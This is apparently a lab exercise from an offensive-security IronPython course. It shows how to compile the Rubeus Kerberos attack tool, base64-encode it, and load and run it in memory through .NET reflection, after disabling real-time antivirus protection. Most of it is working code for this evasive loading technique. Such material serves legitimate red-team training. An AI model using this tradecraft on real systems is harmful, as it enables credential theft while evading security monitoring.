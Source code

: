 # Exercise 7: Loading and Executing a .NET Assembly from Base64 in IronPython

## Pull, Modify, and Compile Rubeus
1. If not using the provided range, download [Rubeus](https://github.com/GhostPack/Rubeus.git)
2. Locate the Visual Studio shortcut on your desktop or find it from the Start menu and open it.
3. Open the Rubeus Solution: `Click on File > Open > Project/Solution`
4. Locate the Main Method in Rubeus/Program.cs, which is named `public static void Main(string[] args)`.
5. Change the private keyword to public to make the method publicly accessible:
csharp
```
public static void Main(string[] args)
```
6. Navigate to the top menu and click `Build > Build Solution`.
7. Copy Rubeus.exe to `C:\Program Files\IronPython 3.4`

## Converting to Base64
1. From `C:\Program Files\IronPython 3.4`, open a notepad named `file_to_base64.py`.
2. Write a Python function to convert a file into its base64 representation.

```python
import base64

def file_to_base64(file_path, output_file_path):
    with open(file_path, 'rb') as file:
        base64_encoded = base64.b64encode(file.read()).decode('utf-8')
        
    with open(output_file_path, 'w') as out_file:
        out_file.write(base64_encoded)

file_to_base64('Rubeus.exe', 'output_base64.txt')
```

3. Execute the function with the path to your .NET assembly.

```powershell
.\ipy.exe .\file_to_base64.py
```

4. Copy the printed base64 string for the next task.

![Alt text](image.png)

5. The file is also located [here](./output_base64.txt).

## Creating the Function
Now we are going to create the IronPython function to load the assembly.

1. Open a new Notepad and name as `IronRubeus.py`
2. Import the required IronPython modules and .NET libraries.

```python
import clr
import System
import base64
import argparse
from System.Reflection import Assembly
```

3. Next, add the base64 encoded string.

```python
base64_str = "TVqQAAMAAAAEAAAA//8AALgAAA..."
```

4. Add a function to convert the base64 string to a byte array.

```python
def base64_to_bytes(base64_string):
    return System.Array[System.Byte](base64.b64decode(base64_string))
```

5. Add a function to convert a Python list to a .NET string array.

```python

# Convert a Python list to a .NET string array
def to_clr_array(py_list):
    arr = System.Array.CreateInstance(System.String, len(py_list))
    for i, item in enumerate(py_list):
        arr[i] = item
    return arr
```

6. Define a function to load and execute the assembly.

```python
def load_and_execute_assembly(command):
    assembly_bytes = base64_to_bytes(base64_str)
    
    # Load the assembly
    assembly = Assembly.Load(assembly_bytes)
    
    # Get the type of the Rubeus.Program class
    rubeus_program_type = assembly.GetType("Rubeus.Program")

    # You don't need to create an instance of the class for a static method
    method = rubeus_program_type.GetMethod("MainString")

    # Convert your command to a .NET string array
    command_args = to_clr_array([command])

    # Invoke the MainString method
    result = method.Invoke(None, command_args)

    return result
```

7. Use the function to load and execute the assembly.

```python
def main():
    parser = argparse.ArgumentParser(description='Execute a command on a hardcoded base64 encoded assembly')
    parser.add_argument('command', type=str, help='Command to execute (like "help" or "triage")')

    args = parser.parse_args()
    
    result = load_and_execute_assembly(args.command)
    print(result)

if __name__ == "__main__":
    main()
```
8. Disable real-time protection to run the script.

9. Type: ` .\ipy.exe .\IronRubeus.py help` and you should receive the following output.

![image](https://github.com/BC-SECURITY/Taming-Offensive-IronPython/assets/20302208/b071bfd2-adf9-4be9-afd5-38b3a6d500ba)

